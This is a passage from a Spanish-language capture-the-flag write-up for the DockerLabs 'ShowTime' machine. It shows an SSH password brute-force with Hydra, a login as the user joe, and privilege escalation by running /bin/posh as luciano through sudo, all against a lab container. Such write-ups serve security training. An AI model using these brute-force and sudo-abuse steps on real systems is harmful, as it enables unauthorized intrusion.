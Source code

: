 Al tener contraseñas y usuarios, usaremos **Hydra** para realizar un ataque de fuerza bruta offline, encontrando así las credenciales SSH del usuario **joe** con la contraseña **chittychittybangbang**.
```bash
┌──(kali㉿kali)-[~/…/DockerLabs/Facil/9-ShowTime/content]
└─$ hydra -l joe -P w.txt ssh://172.17.0.3 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-25 22:12:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 78 login tries (l:1/p:78), ~5 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: joe   password: chittychittybangbang
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-25 22:12:47
```
Y con las credenciales encontradas realizamos la intrusión correctamente via SSH. 
```bash
┌──(kali㉿kali)-[~/…/DockerLabs/Facil/9-ShowTime/content]
└─$ ssh joe@172.17.0.3                     
joe@172.17.0.3's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Aug 25 23:11:57 2024 from 172.17.0.1
joe@eb67e53c9530:~$ id
uid=1001(joe) gid=1001(joe) groups=1001(joe),100(users)
```
Una vez dentro continuamos con la metodología para la escalada de privilegios con `sudo -l`. El resultado nos muestra un binario que se puede ejecutar como root sin necesidad de contraseña para el usuario luciano.

Para abusar de esta vulnerabilidad, necesitamos ejecutar el comando como luciano con `sudo -u luciano`, y posteriormente indicando el binario:
```bash
joe@eb67e53c9530:~$ sudo -l
Matching Defaults entries for joe on eb67e53c9530:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joe may run the following commands on eb67e53c9530:
    (luciano) NOPASSWD: /bin/posh
joe@eb67e53c9530:~$ sudo -u luciano /bin/posh
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
```
